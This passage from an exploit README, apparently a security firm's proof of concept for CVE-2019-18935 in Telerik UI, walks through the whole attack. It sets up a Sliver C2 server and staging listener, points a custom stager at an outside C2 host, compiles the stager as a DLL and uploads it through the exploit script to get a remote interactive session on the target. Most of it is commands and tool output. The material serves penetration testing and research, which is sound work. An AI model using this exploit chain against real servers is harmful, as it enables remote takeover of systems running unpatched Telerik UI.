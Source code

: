 ```bash
MINGW_PATH='/usr/bin'  # Or wherever MinGW is located.
export SLIVER_CC_32="$MINGW_PATH/i686-w64-mingw32-gcc"
export SLIVER_CC_64="$MINGW_PATH/x86_64-w64-mingw32-gcc"
./sliver-server
```

Open C2 endpoint (we're using an mTLS listener here, but you can also use HTTP or DNS) on Sliver server, create an implant profile, and create a staging listener linked to that profile. More info on staged payloads [here](https://github.com/BishopFox/sliver/wiki/Stagers#example). Note that we're not generating a Sliver stager using `generate stager` as Sliver's documentation suggests; we're instead using our custom [`sliver-stager.c`](sliver-stager.c).

⚠️ Warning: Sending a stage of the wrong CPU architecture will _crash_ the target process! For example, if the target is running a 32-bit version of Telerik UI and the staging server sends a 64-bit stage to the 32-bit stager, the web server process will crash. In the following example, we generate 32-bit shellcode—but you must match that to your target's CPU architecture using the `new-profile` command's `--arch` flag.

```
sliver > mtls
[*] Starting mTLS listener ...
[*] Successfully started job #1

sliver > new-profile --mtls <C2-ENDPOINT>:<PORT> --arch x86 --format shellcode --profile-name shellcode-32 --skip-symbols
[*] Saved new profile shellcode-32

sliver > stage-listener --url tcp://<STAGING-SERVER>:<PORT> --profile shellcode-32
[*] No builds found for profile shellcode-32, generating a new one
[*] Job 2 (tcp) started
```

Set the host and port in the Sliver stager source to point to the Sliver server (showing an example server below).

```
sed -Ei .bu 's/<HOST>/sliverserver.bishopfox.com/; s/<PORT>/443/' sliver-stager.c
```

Compile the Sliver stager payload, and upload the payload to the target and load it into the application (all according to the preceding Usage sections in this README).

```
> .\build-dll.bat sliver-stager.c x86

$ python3 CVE-2019-18935.py -v 2017 -u <HOST>/Telerik.Web.UI.WebResource.axd?type=rau -p payloads/sliver-stager-2020080514261722-x86.dll
```

If all goes well (have you [troubleshat](#Troubleshooting) this target?), you'll see a session created in your Sliver server window that you can use to interact with the target.

```
[*] Session #1 AFRAID_COMPUTER - <REMOTE-ADDRESS> (DESKTOP-D19S4Q2) - windows/386 - Wed, 05 Aug 2020 15:58:27 UTC

sliver > use 1

[*] Active session AFRAID_COMPUTER (1)

sliver (AFRAID_COMPUTER) > help

Commands:
=========
  clear  clear the screen
  exit   exit the shell
  help   use 'help [command]' for command help
  ...
```